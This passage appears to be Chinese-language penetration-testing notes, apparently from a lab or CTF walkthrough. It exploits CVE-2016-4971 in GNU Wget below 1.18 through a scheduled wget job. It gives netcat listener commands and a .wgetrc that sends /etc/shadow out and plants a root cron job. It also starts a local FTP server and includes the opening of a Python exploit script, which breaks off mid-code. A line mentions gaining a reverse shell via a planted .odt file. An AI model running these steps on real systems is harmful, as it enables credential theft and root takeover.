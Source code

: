smb 可读写, 生成的.odt 文件放在 smb 文件共享中, 等待自动任务访问清除, 得到 rev shell


##### GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution
**有自动任务 wget 并存在 vuln 可以直接本地提权**
```bash
nc -lvvp 80
authbind nc -lnvp 80
```
(看是否有定时任务 wget), 例如
```bash
Connection from [10.0.3.133] port 80 [tcp/*] accepted (family 2, sport 59864)
GET /archive.tar.gz HTTP/1.1
User-Agent: Wget/1.16 (linux-gnu)
Accept: */*
Host: 10.0.3.1
```

```
cd /tmp; mkdir /ftptemp; cd ./ftptemp
cat <<_EOF_>.wgetrc
> post_file = /etc/shadow
> output_document = /etc/cron.d/wget-root-shell
> _EOF_
```

重新创建一个会话建立本地 ftp 服务(在.wgetrc 文件夹内) ：
```bash
atanas@kotarak-dmz:/$ authbind python -m pyftpdlib -p21 -w

/usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  RuntimeWarning)
[I 2024-11-21 10:04:41] >>> starting FTP server on 0.0.0.0:21, pid=2706 <<<
[I 2024-11-21 10:04:41] concurrency model: async
[I 2024-11-21 10:04:41] masquerade (NAT) address: None
[I 2024-11-21 10:04:41] passive ports: None
```

wget-exploit.py
```python
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971 
#

import SimpleHTTPServer
import SocketServer
import socket;

class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
   def do_GET(self):
       # This takes care of sending .wgetrc

       print "We have a volunteer requesting " + self.path + " by GET :)\n"
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
```